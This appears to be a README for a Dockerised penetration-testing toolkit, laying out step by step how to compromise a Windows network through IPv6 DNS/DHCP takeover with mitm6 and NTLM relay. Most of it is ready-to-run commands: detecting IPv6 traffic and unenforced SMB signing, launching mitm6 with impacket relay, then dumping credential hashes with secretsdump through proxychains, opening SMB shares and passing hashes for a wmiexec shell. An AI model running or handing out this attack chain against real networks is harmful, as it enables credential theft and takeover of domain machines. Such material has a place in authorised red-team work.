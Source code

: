 # IPV6

## Discovery

First check if IPv6 is being used on the network:

```bash
screen -S tshark -d -m docker run --network host -v -it "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
check_for_ipv6_traffic network_interface to listen on
```

If Ipv6 is not being actively managed by a DNS and DHCP server and IPv6 packets are flowing then we can likely
compromise this network by setting up a DNS server and DHCP server for IPv6. It is worth noting that according to [RFC3484](https://www.ietf.org/rfc/rfc3484.txt)
IPv6 will be preferred over IPv4 which means that once IPv6 is being managed, nodes on the network will send packets via IPv6 as
opposed to IPV4.

To ensure that the attack can be completed, the next step is to check if SMB signing is not required. To discover if SMB is enabled 
but not required, run:

```bash
docker run -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
check_if_smb_is_required target_ip_address_or_list_of_ips
```

## Exploitation

If SMB is not required then:

```bash
screen -S mitm6 -d -m  docker run -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
start_mitm6 target_domain_name local_network_interface
```

The above command runs mitm6 (Creates a DNS and DHCP server to manage IPV6) and impacket relay in two screens, you can view the running screens using:

```bash
screen -ls
```

Activate running screens with:

```bash
screen -r relay_ipv6
screen -r mitm6
```

Detach from a screen using

```bash
Ctrl + A (release before next key) + D
```

You can check if SMB sessions have been created successfully by resuming the `relay_ipv6`
screen and running the `socks` command

If SMB sessions have been created, you can perform a number of actions going forward using proxychains:

- Dumping ashes

    ```bash
    sudo proxychains impacket-secretsdump -no-pass DOMAIN/USER@X.X.X.X 
    ```
- Accessing SMB shares

    ```bash
    proxychains smbclient //10.8.0.99 -U DOMAIN/X.X.X.X     
    ```
- Passing hashes for a WMIexec session

```bash
impacket-wmiexec -hashes xxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxx user@x.x.x.x
```
